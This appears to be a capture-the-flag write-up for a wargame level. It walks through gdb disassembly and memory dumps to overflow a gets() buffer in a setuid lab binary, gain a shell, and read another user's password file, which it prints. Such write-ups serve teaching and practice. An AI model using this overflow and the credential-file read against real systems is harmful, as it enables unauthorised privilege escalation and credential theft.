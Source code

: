 # Level 3

For this level we have the source code, and if we check it we can see that we'll get a sell if `admin_enabled` is different from 0. The problem is that this variable is assigned to `0` and is never changed. The only thing we can modify is the `buffer` of length 64, so let's dissasemble the compiled binrar:

	(gdb) disas main
	Dump of assembler code for function main:
	   0x0000000000400718 <+0>:		push   %rbp
	   0x0000000000400719 <+1>:		mov    %rsp,%rbp
	   0x000000000040071c <+4>:		sub    $0x60,%rsp
	   0x0000000000400720 <+8>:		mov    %edi,-0x54(%rbp)
	   0x0000000000400723 <+11>:	mov    %rsi,-0x60(%rbp)
	   0x0000000000400727 <+15>:	movl   $0x0,-0x4(%rbp)
	   0x000000000040072e <+22>:	mov    $0x400800,%edi
	   0x0000000000400733 <+27>:	callq  0x400540 <puts@plt>
	   0x0000000000400738 <+32>:	lea    -0x50(%rbp),%rax
	   0x000000000040073c <+36>:	mov    %rax,%rdi
	   0x000000000040073f <+39>:	callq  0x4005b0 <gets@plt>
	   0x0000000000400744 <+44>:	mov    -0x4(%rbp),%eax
	   0x0000000000400747 <+47>:	test   %eax,%eax
	   0x0000000000400749 <+49>:	je     0x400761 <main+73>
	   0x000000000040074b <+51>:	mov    $0x400828,%edi
	   0x0000000000400750 <+56>:	callq  0x400540 <puts@plt>
	   0x0000000000400755 <+61>:	mov    $0x0,%eax
	   0x000000000040075a <+66>:	callq  0x4006c6 <spawn_shell>
	   0x000000000040075f <+71>:	jmp    0x40076b <main+83>
	   0x0000000000400761 <+73>:	mov    $0x400891,%edi
	   0x0000000000400766 <+78>:	callq  0x400540 <puts@plt>
	   0x000000000040076b <+83>:	leaveq
	   0x000000000040076c <+84>:	retq
	End of assembler dump.

As we can see in `main+15` a zero is stored in `$rbp-0x4`, we'll supose this is the variable `admin_enabled`. Just before this something is stored in `$rbp-0x54` and `$rbp-0x60`, probably is the assignment of `buffer`.

Let's set a breakpoint at `main+47`, after the function gets is called to check were the input data is stored:

	(gdb) b *main+47
	Breakpoint 1 at 0x400747

We run it and enter 64 'A' (Note: A is encoded as 0x41 in ascii):

		(gdb) r
	Starting program: /matrix/level3/level3
	Zero Cool - Bugdoor v4
	Enter Password:
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

	Breakpoint 1, 0x0000000000400747 in main ()

Let's see what is stored in `$rbp-0x60` and after:

	(gdb) x/32wx $rbp-0x60
	0x7fffffffeaa0:	0xffffebe8	0x00007fff	0xf7ff74c0	0x00000001
	0x7fffffffeab0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffeac0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffead0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffeae0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffeaf0:	0xffffeb00	0x00007fff	0x00000000	0x00000000
	0x7fffffffeb00:	0x00000000	0x00000000	0xf7a54b45	0x00007fff
	0x7fffffffeb10:	0x00000000	0x00000000	0xffffebe8	0x00007fff

Here are stored our 'A'! We also can see that the value of `admin_enabled` is still '0' (adresses from `0x7fffffffeafc` to `0x7fffffffeaff`).

To get the input the source code uses `gets()`, this function doesn't check if the length of the introduced data is bigger than were it has to be assigned. We can use this as our exploit by entering enough 'A', 64+16 in ourcase.

Let's re-run the binaries and check what happens:

	(gdb) r
	Starting program: /matrix/level3/level3
	Zero Cool - Bugdoor v4
	Enter Password:
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

	Breakpoint 1, 0x0000000000400747 in main ()
	(gdb) x/32wx $rbp-0x60
	0x7fffffffeaa0:	0xffffebe8	0x00007fff	0xf7ff74c0	0x00000001
	0x7fffffffeab0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffeac0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffead0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffeae0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffeaf0:	0x41414141	0x41414141	0x41414141	0x41414141
	0x7fffffffeb00:	0x00000000	0x00000000	0xf7a54b45	0x00007fff
	0x7fffffffeb10:	0x00000000	0x00000000	0xffffebe8	0x00007fff

The memory address of `admin_enabled` is no longer `0x00000000`, let's continue the execution:

	(gdb) c
	Continuing.
	Zero Cool - Bugdoor v4
	How can this happen? The variable is set to 0 and is never modified in between O.o
	You must be a hacker!
	$ id
	uid=1003(level3) gid=1003(level3) groups=1003(level3)

Running the binary with gdb doesn't give us level4 permissions, we just have to do the same outside gdb:

	level3@gracker:/matrix/level3$ ./level3
	Zero Cool - Bugdoor v4
	Enter Password:
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	How can this happen? The variable is set to 0 and is never modified in between O.o
	You must be a hacker!
	$ id
	uid=1004(level4) gid=1003(level3) groups=1003(level3)
	$ cat /home/level4/.pass
	0LRS6_hjGzCf

And we have access to the next level!


Usefull resources for this level:
+ [gets() function documentation](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm)